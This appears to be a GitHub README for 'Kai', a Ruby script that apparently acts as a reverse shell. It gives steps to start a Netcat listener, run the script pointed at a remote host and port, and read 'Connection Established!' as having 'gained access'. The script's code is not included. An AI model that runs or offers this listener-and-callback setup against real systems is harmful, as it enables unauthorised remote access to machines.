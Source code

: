 ## Kai

## Dependencies

**In order for the script to work you need to have Ruby installed on the system.**  

**1. Fire up Netcat for incoming connections. `$ nc -lvp 1234`**  
**2. Run Kai. `$ ./kai.rb --remote-host 192.168.1.109 --port-remote 1234`**  
**3. If you get this message `Status: Connection Established!` it means you gained access.**  

  <a href="https://www.ruby-lang.org/en/" target="_blank" rel="noreferrer">
    <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/ruby/ruby-original.svg" alt="ruby"
      width="50" height="50" /> 
